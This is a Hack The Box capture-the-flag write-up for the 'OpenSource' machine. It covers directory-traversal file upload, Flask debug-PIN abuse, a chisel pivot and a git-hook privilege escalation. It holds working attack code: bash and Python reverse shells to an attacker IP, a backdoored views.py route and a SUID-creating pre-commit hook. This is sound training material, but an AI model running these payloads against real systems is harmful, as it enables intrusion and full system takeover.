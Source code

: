 # 🧠 HTB: OpenSource – Command & Exploit Notes

---

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
## ⚙️ Recon

**Open Ports**
```bash
nmap -p- --min-rate 10000 10.10.11.164
nmap -p 22,80 -sCV 10.10.11.164
```

- `22/tcp`: [OpenSSH 7.6p1](SSH)
- `80/tcp`: [HTTP](HTTP) – Werkzeug/2.1.2 Python/3.10.3
- `3000/tcp`: Filtered (accessible later from container)

**Website**
- Main page has a source code download link
- /upcloud: file uploader
- Werkzeug server implies Flask backend

**Source Review**
- `get_file_name()` strips `../` via recursive replacement
- Bug: can bypass directory traversal with `/` or `/..//`
- Hidden Git repo reveals a dev branch with dev credentials

---

## 🐚 Shell as root (inside container)

### Method 1: Flask Debug Console (Unintended)
1. Collect:
   - Username: `root`
   - App path: `/usr/local/lib/python3.10/site-packages/flask/app.py`
   - MAC: `/sys/class/net/eth0/address`
   - Boot ID: `/proc/sys/kernel/random/boot_id`
   - Container ID: `/proc/self/cgroup` → extract last part after 3rd `/`

2. Generate PIN:
   - Use [Werkzeug Debug PIN Generator (SHA1-based)](https://book.hacktricks.xyz/pentesting-web/deserialization/flask-pin-debug-code-execution)

3. Input PIN in browser debug console:
   ```python
   import subprocess; subprocess.call(["bash", "-c", "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"])
   ```

### Method 2: Upload Backdoored `views.py`
```python
@app.route('/0xdf')
def rev():
    import socket, os, pty
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.6",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("sh")
```

Upload it as `/..//app/views.py`, then visit `http://10.10.11.164/0xdf`.

---

## 🐚 Shell as dev01 (host)

### Identify Port 3000 Gitea
```bash
wget 172.17.0.1:3000 -O-
```

### Pivot Using Chisel
Host:
```bash
chisel server -p 8000 --reverse
```
Container:
```bash
./chisel client 10.10.14.6:8000 R:3000:172.17.0.1:3000
```

### Gitea Access
- URL: `http://localhost:3000`
- User: `dev01`
- Pass: `Soulless_Developer#2022`
- Repo: `home-backup` → contains SSH private key

### SSH into Host
```bash
chmod 600 opensource-dev01
ssh -i opensource-dev01 dev01@10.10.11.164
```

---

## 🧨 Privilege Escalation (host → root)

### Enumeration
```bash
id
sudo -l         # Requires dev01 password
```

### Find Cron Job with `pspy`
```bash
wget 10.10.14.6:8000/pspy64
chmod +x pspy64
./pspy64
```

### Abusing Git Hook
```bash
cd ~/.git/hooks/
echo -e '#!/bin/bash\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
chmod +x pre-commit
```

Wait for next cron to trigger. Then:
```bash
/tmp/0xdf -p
```

Root shell 🎯
